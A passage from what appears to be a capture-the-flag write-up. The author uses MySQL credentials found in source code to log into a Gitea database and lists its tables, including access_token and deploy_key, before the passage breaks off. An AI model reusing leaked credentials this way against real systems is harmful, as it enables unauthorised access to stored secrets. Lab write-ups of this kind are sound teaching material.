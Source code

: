 This revealed me the credentials used to login in the MySQL database as well the name of the db:
- database name: gitea
- username: gitea
- password: yuiu1hoiu4i5ho1uh

So, I used such informations to login into the database:
```bash
mysql -u gitea -P 3306 -h 127.0.0.1 -p'yuiu1hoiu4i5ho1uh'
```

Then, once selected the correct db, I listed all the existing tables:
```bash
mysql> USE gitea;

mysql> SHOW tables;
+---------------------------+
| Tables_in_gitea           |
+---------------------------+
| access                    |
| access_token              |
| action                    |
| app_state                 |
| attachment                |
| badge                     |
| collaboration             |
| comment                   |
| commit_status             |
| commit_status_index       |
| deleted_branch            |
| deploy_key                |
| email_address             |
| email_hash                |
| external_login_user       |
| follow                    |
| foreign_reference         |
| gpg_key                   |
| gpg_key_import            |
| hook_task                 |
| issue                     |
| issue_assignees           |
| issue_content_history     |
| issue_dependency          |
| issue_index               |
| issue_label               |
| issue_user                |
| issue_watch               |
| label                     |
| language_stat             |
| lfs_lock                  |
| lfs_meta_object           |
| login_source              |
| milestone                 |
| mirror                    |
| notice                    |
| notification              |
| oauth2_application        |
| oauth2_authorization_code |
| oauth2_grant              |
| org_user                  |
| package                   |
| package_blob              |
| package_blob_upload       |
| package_file              |
| package_property          |
| package_version           |
```